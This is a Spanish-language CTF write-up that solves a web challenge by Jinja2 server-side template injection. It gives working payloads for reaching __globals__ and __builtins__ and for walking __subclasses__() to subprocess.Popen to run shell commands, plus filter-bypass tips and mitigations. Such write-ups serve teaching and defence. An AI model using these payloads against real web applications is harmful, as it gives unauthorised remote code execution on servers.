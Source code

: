 #### Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.
## Solución (pasos esenciales)

### 1) Confirmar que hay SSTI

Prueba rápida para detectar evaluación de plantillas:

- Payload:
    
    `{{7*7}}`
    
    Si la página devuelve `49` → la entrada está siendo evaluada por el motor de plantillas (SSTI confirmado).
    

---

### 2) Probar accesos directos (si están permitidos)

En algunos retos `__self__`, `config`, `request` o `self` están disponibles; esto permite llegar a `__globals__` y `__builtins__` de forma directa. Ejemplos:

- Intentar leer globals:
    
    `{{ self.__init__.__globals__ }}`
    
- Intentar `__import__` desde builtins:
    
    `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}`
    

Si alguno de estos funciona, puedes llamar `os.popen('cat flag').read()` para obtener la flag.

> Si estos accesos están filtrados o no existen, pasar al paso 3 (bypass mediante introspección).

---

### 3) Bypass por introspección (técnica universal para Jinja2)

Cuando `__globals__` o `__builtins__` no están directamente accesibles, la técnica habitual es **usar la jerarquía de clases (MRO) e inspeccionar `__subclasses__()`** para localizar clases que permitan ejecutar procesos (por ejemplo `subprocess.Popen`) o acceder a módulos (`os`), y luego ejecutar comandos.

#### a) Enumerar subclases

Payload para volcar una lista de subclases (en páginas que permiten devolver listas largas):

`{{ ''.__class__.__mro__[2].__subclasses__() }}`

Eso imprime muchas entradas; busca manualmente la que parezca `subprocess.Popen` o alguna clase con `popen`/`Popen`.

#### b) Encontrar el índice del `subprocess.Popen` dinámicamente

Si la lista es grande, usa un payload para iterar y encontrar el índice (ejemplo conceptual — ajustar según la sandbox del reto):

`{% for i in range(0,200) %}   {% set c = ''.__class__.__mro__[2].__subclasses__()[i] %}   {{ i }} - {{ c }} {% endfor %}`

Esto imprime índices con nombres de clases; localiza el índice `N` de `subprocess.Popen`.

#### c) Ejecutar comando usando la subclase encontrada

Suponiendo que `subprocess.Popen` está en el índice `N`, ejecuta:

`{{ ''.__class__.__mro__[2].__subclasses__()[N]('cat flag', shell=True, stdout=-1).stdout.read() }}`

- `shell=True` permite ejecutar la cadena en shell.
    
- `stdout=-1` (o `subprocess.PIPE`) define que queremos capturar la salida.
    

**Nota:** a veces hay que adaptar el payload a la sintaxis del motor (por ejemplo convertir `-1` a `-1` está bien, pero algunos entornos requieren usar el entero explícito).

---

### 4) Variante si `subprocess` no aparece

Si `subprocess.Popen` no está disponible pero puedes acceder a módulos a través de `__import__` (mediante una clase encontrada), usa:

`{{ ''.__class__.__mro__[2].__subclasses__()[i].__init__.__globals__['__builtins__']['__import__']('os').popen('cat flag').read() }}`

O, si encuentras una función cuyo `__globals__` referencia `__builtins__`, extrae `__import__` desde allí y carga `os`.

---

### 5) Payloads alternativos útiles

- Lectura simple de archivos con `__import__`:
    
    `{{ __import__('os').popen('cat flag').read() }}`
    
    (funciona solo si `__import__` está accesible desde el contexto)
    
- Enumerar variables del contexto:
    
    `{{ config }} {{ request }} {{ g }}`
    
    (a veces `config` o `request` exponen módulos o funciones que facilitan la explotación)
    

---

## Ejemplo de flujo práctico (resumen)

1. Enviar `{{7*7}}` → confirmar `49`.
    
2. Probar `{{ self.__init__.__globals__ }}` → si funciona, hacer `__import__('os').popen('cat flag').read()`.
    
3. Si no, ejecutar `{{ ''.__class__.__mro__[2].__subclasses__() }}` → buscar `subprocess.Popen`.
    
4. Usar índice `N` en:
    
    `{{ ''.__class__.__mro__[2].__subclasses__()[N]('cat flag', shell=True, stdout=-1).stdout.read() }}`
    
5. Copiar la salida: esa es la flag.
    

---

## Notas adicionales / Precauciones

- **Sandboxing y filtros:** muchos retos aplican filtros que bloquean palabras clave (`__import__`, `popen`, `subprocess`, `os`, `eval`) o caracteres (`_`, `__`). En esos casos hay que ser creativo con técnicas de bypass (usar MRO/subclasses, concatenación de strings, atributos internamente divulgados).
    
- **Salida truncada:** la respuesta puede truncarse por el servidor; si la flag no se ve completa, intenta redirigir la salida a un archivo web‑accesible o usar `head`/`tail` para mostrar porciones.
    
- **Velocidad y detección:** no envíes payloads masivos repetidos muy rápido; algunos servidores aplican rate limiting o detección de abuso.
    
- **Ética y reglas del CTF:** no publiques la flag en foros hasta que esté permitido; comparte writeups con spoilers únicamente cuando corresponda.
    

---

## Mitigaciones (cómo arreglarlo en una aplicación real)

- **Nunca** renderizar entrada de usuario directamente como plantilla. Separar datos de templates.
    
- Habilitar **autoescape** y desactivar evaluación de expresiones arbitrarias.
    
- **No** exponer objetos del entorno (`self`, `config`, `request`) a las plantillas si no es necesario.
    
- Usar un motor de plantillas sin capacidad de ejecución (o con sandbox real) si se necesita contenido HTML generado a partir de entrada de usuario.
    
- Validar/limitar la longitud y el contenido de las entradas.
    
- Mantener el principio de mínimo privilegio en los procesos web (limitando lo que pueden ejecutar).
    

---

## Referencias y recursos útiles

- Documentación Jinja2 — conceptos de sandbox y seguridad.
    
- PortSwigger / OWASP — artículos sobre SSTI y ejemplos prácticos.
    
- Writeups de CTFs previos (SSTI) para payloads específicos y técnicas de bypass (usar `__class__.__mro__`, `__subclasses__()` y `__globals__`).